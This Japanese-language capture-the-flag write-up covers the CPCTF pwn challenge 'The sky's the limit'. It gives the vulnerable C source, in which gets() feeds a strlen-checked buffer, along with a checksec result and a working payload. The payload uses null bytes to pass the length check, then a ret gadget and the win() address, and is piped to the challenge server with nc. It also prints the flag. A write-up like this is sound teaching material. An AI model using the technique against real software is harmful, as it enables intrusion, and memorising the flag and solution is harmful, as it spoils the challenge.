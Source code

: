 # The sky's the limit:Pwn:268.23pts
あまりにも長い入力は危険らしいので弾くようにしました！  
`nc the_skys_the_limit.web.cpctf.space 30007`  

[配布ファイル](the_skys_the_limit.zip)  

**Hint1**  
脆弱性があるのは28行目のgets関数です。  
**Hint2**  
gets関数でbufよりも大きい文字列を入力できるため、stack buffer overflow の脆弱性があります。  
上手くwin関数に処理を飛ばしましょう。  
また、strlenでの文字列チェックに引っかからないようにするため、文字列の区切りとなるようなものを入力する文字列に仕込みましょう。  
stack alignment に注意してください。  
**Hint3 (解法)**  
'\x00'などを入力すると、そこが文字列の終端であるとみなされるため文字列長をごまかすことができます。  
これを踏まえてstack buffer over flow をしていきましょう。  
'\x00'を24文字、ret命令、win関数のアドレスの順に入力すればうまくいきそうです。  
`echo -e "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x13\x13\x40\x00\x00\x00\x00\x00\x89\x12\x40\x00\x00\x00\x00\x00"`
これをパイプなどで入力しましょう。  

# Solution
接続先とソースが配布される。  
ソースは以下の通りであった。  
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#define BUF_SIZE 16

int init(){
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);
	alarm(60);

	return 0;
}

int win() {
	system("cat flag.txt");

	return 0;
}

int main() {
	init();

	char buf[BUF_SIZE];

	printf("input:");
	gets(buf);

	if(strlen(buf) > BUF_SIZE) {
		printf("Too long.\n");
		exit(0);
	}

	return 0;
}
```
`gets`で自明なBOFがある。  
ただし`strlen`で入力を検証しており、16バイトより大きいと`Too long.`と怒られる。  
以下のようにセキュリティ機構をチェックする。  
```bash
$ checksec --file=./chall
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   46 Symbols        No    0               2               ./chall
```
Canaryは無いようだ。  
ここで`strlen`がヌルバイトまでの長さを見るのに対し、`gets`はヌルバイトを受け付けることに気づく。  
つまり、入力の16バイト以内にヌルバイトが存在する場合、`strlen`のチェックを常に通る。  
パディングの先頭にヌルバイトを付加して、ROPしてやればよい。  
スタックアラインメントの調整のためretを挟んで、winに飛ばしてやる。  
```bash
$ objdump -D ./chall | grep win -A 9
0000000000401289 <win>:
  401289:       f3 0f 1e fa             endbr64
  40128d:       55                      push   %rbp
  40128e:       48 89 e5                mov    %rsp,%rbp
  401291:       48 8d 05 6c 0d 00 00    lea    0xd6c(%rip),%rax        # 402004 <_IO_stdin_used+0x4>
  401298:       48 89 c7                mov    %rax,%rdi
  40129b:       e8 30 fe ff ff          call   4010d0 <system@plt>
  4012a0:       b8 00 00 00 00          mov    $0x0,%eax
  4012a5:       5d                      pop    %rbp
  4012a6:       c3                      ret
$ echo -e "\x00AAAAAAAAAAAAAAAAAAAAAAA\xa6\x12\x40\x00\x00\x00\x00\x00\x89\x12\x40\x00\x00\x00\x00\x00" | nc the_skys_the_limit.web.cpctf.space 30007
input:CPCTF{Nu11_s7rin6_m4De_y0u_fr3E}Segmentation fault (core dumped)
```
flagが得られた。  

## CPCTF{Nu11_s7rin6_m4De_y0u_fr3E}